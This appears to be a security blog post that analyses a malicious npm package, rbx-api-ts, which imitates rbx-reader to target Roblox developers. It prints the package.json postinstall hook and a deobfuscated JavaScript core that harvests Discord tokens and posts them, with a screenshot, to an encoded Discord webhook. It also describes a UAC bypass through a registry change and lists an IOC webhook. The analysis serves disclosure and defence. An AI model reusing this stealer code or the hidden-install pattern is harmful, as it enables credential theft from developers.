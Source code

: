 ```yaml
---
title: NPM-Poison-Package:rbx-api-ts
categories:
  - Security
tags:
  - Poison
date: 2024-12-26 22:00:00
---
```

## Summary
The attack on Roblox developers is still ongoing. A malicious NPM package called rbx-api-ts is disguised with a name similar to [rbx-reader](https://github.com/littleBitsman/rbx-reader) to confuse users. Its purpose is to steal Discord tokens, install the Quasar RAT (a remote access tool), and disable or modify security software.
The malware also tampers with the Windows registry to activate itself whenever the user opens the Settings app.
![](/assets/2024-12-26/rbx-api-ts.jpg)
## Attack Path
![](/assets/2024-12-26/attack-pth.png)

## Code Analysis
Malicious code is triggered by executing the postinstall script in package.json during installation, Users only need to trigger the malicious code by installing it via npm install.
### package.json
```json
{
  "name": "rbx-api-ts",
  "version": "1.6.9",
  "description": "A NPM module for reading .rbxm(x) and .rbxl(x) files",
  "main": "dist/index.js",
  "types": "dist/index.d.ts",
  "repository": {
    "type": "git",
    "url": "git+https://github.com/littleBitsman/rbx-reader.git"
  },
  "author": "littleBitsman",
  "contributors": [
    {
      "name": "shiinazzz",
      "url": "https://www.npmjs.com/~shiinazzz"
    }
  ],
  "license": "AGPL-3.0-or-later",
  "bugs": {
    "url": "https://github.com/littleBitsman/rbx-reader/issues"
  },
  "homepage": "https://github.com/littleBitsman/rbx-reader#readme",
  "devDependencies": {
    "@types/jsdom": "^21.1.6",
    "typescript": "^5.3.3"
  },
  "dependencies": {
    "axios": "^1.7.8",
    "child_process": "^1.0.2",
    "crypto": "^1.0.1",
    "fs": "^0.0.1-security",
    "jsdom": "^25.0.1",
    "node-dpapi-prebuilt": "^1.0.4",
    "node-fetch": "^2.7.0",
    "os": "^0.1.2",
    "rbx-handler":"1.15.0"
  },
  "scripts": {
    "postinstall": "node postinstall"
  }
}
```
### postinstall.js
postinstall.js is obfuscated code.
![](/assets/2024-12-26/postinstall.jpg)
Use online deobfuscation for preliminary cleaning:
![](/assets/2024-12-26/deobfuscator.jpg)

### Core Code Simplification After Deobfuscation
```javascript
const os = require("os");  
const fs = require("fs");  
const path = require("path");  
const axios = require("axios");  
const { execSync } = require("child_process");  

const remoteURL = Buffer.from("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTMyMT...", "base64").toString('utf-8');  

function captureTokens(dir, tokens) {  
    const files = fs.readdirSync(dir);  
    for (const file of files) {  
        const filePath = path.join(dir, file);  
        if (fs.lstatSync(filePath).isDirectory()) {  
            captureTokens(filePath, tokens);  
        } else if (file.endsWith(".log") || file.endsWith(".ldb")) {  
            const content = fs.readFileSync(filePath, "utf8");  
            const regex = /dQw4w9WgXcQ:([^\"]+)/;  
            const match = content.match(regex);  
            if (match) {  
                const token = decryptToken(match[1]);  
                if (token) tokens.push(token);  
            }  
        }  
    }  
}  

function sendPayload(tokens, screenshotPath) {  
    const username = os.userInfo().username;  
    const embeds = tokens.map(token => ({  
        name: `Token: ${token}`,  
    }));  

    axios.post(remoteURL, {  
        username: `PC: ${username}`,  
        embeds: embeds,  
        file: fs.readFileSync(screenshotPath),  
    }).catch(console.error);  
}  

async function main() {  
    const tokens = [];  
    const screenshotPath = path.join(os.homedir(), "AppData", "screenshot.png");  

    await captureTokens("C:\\Users\\XYZ\\AppData\\Roaming\\Discord", tokens);  
    sendPayload(tokens, screenshotPath);  
}  

main();
```
### Malicious behavior
1. File Path and Environment Operations:
Specific paths are defined, such as the AppData directory, to determine the user environment through operating system information (os.userInfo, os.homedir, etc.). Random paths and filenames are dynamically generated for storing malicious files, such as downloading and executing cmd.exe or other executable files.

2. UAC Bypass and Registry Operations:
Registry keys and values are added and modified using the registry (HKCU\Software\Classes and ms-settings) to bypass User Account Control (UAC) by disguising as the ms-settings application. After completing the registry operations, specific commands are executed (such as launching designated programs or elevating privileges to run malicious code).

3. Intercepting and Decrypting Credentials (e.g., Discord Token):
Specific directories (such as Discord's leveldb storage) are traversed to find .log and .ldb files. The os_crypt and dpapi functions are used to decrypt data, extracting sensitive user information (such as the Discord Token). The correctness of the sensitive data is verified before sending it to a remote API.

4. Screenshot and File Upload:
Screenshots are taken using the screenshot module. The screenshot files and other data (such as credentials) are sent to a specified remote server using axios or fetch. The remote address is obfuscated through Base64 encoding to conceal the actual URL.

5. Reverse Call and Code Obfuscation Protection:
Various obfuscation and anti-tampering measures are included, such as using debugger detection to hinder analysis with meaningless code. Constructor functions (Function) are utilized to dynamically generate functions or execute code.

6. Malicious Execution and Feedback:
Malicious executable files are downloaded and executed (dynamically located via URL), and upon completion, a callback is made to notify the remote server of the execution status. Environmental information, including username, operating system, directories, etc., is stolen to record specific details about the attacked target.

## IOC
https[:]//discord.com/api/webhooks/1321618748800766065/xbYSb2el1e8huLuC2tX7J4_qSpAUEmIc_6o14R1eaf5EyrOlcFkYsPFWiumjxy4jh153

## Reference
1. https://www.virustotal.com/gui/url/cd2c8cbb84dd335d06abd542b9cceb6de20593de74e17c21e3302f795490c3cb/community
2. https://www.virustotal.com/gui/file/c316b0b818125541a90d7110af8c0908a8d6c73d3b846a27aed647fab6b38e00
2. https://checkmarx.com/blog/year-long-campaign-of-malicious-npm-packages-targeting-roblox-users/